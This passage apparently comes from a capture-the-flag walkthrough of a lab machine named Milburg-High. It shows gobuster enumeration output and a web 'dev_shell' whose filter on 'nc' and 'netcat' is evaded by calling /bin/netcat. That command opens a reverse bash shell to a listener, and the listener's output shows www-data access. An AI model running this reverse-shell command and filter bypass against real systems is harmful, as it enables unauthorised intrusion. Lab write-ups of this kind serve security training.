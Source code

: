 ```Console
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/09/03 11:05:04 Starting gobuster in directory enumeration mode
===============================================================
/news.html            (Status: 200) [Size: 4086]
/login.html           (Status: 200) [Size: 1560]
/about.html           (Status: 200) [Size: 2579]
/contact.html         (Status: 200) [Size: 3145]
/index.html           (Status: 200) [Size: 1425]
/robots.txt           (Status: 200) [Size: 111]
/passwords.html       (Status: 200) [Size: 673]
/server-status        (Status: 403) [Size: 297]

===============================================================
2022/09/03 11:06:51 Finished
===============================================================
```
In _robots.txt_ there is a _dev_shell_:
![robots.txt](images/robots.png)

## Exploitation

The _dev_shell_ ban words but lets try start a reverse shell with netcat (the _dev_shell_ ban nc and netcat so try /bin/netcat).


```Console
/bin/netcat -e /bin/bash 10.0.2.7 4333
```

![reverse](images/reverse.png)

```Console
nc -lvvvp 4333
Listening on any address 4333 (ahsp)
Connection from 10.0.2.17:56704
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
uname -a
Linux Milburg-High 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
lsb_release -a
Distributor ID:	Debian
Description:	Debian GNU/Linux 9.3 (stretch)
Release:	9.3
Codename:	stretch
```
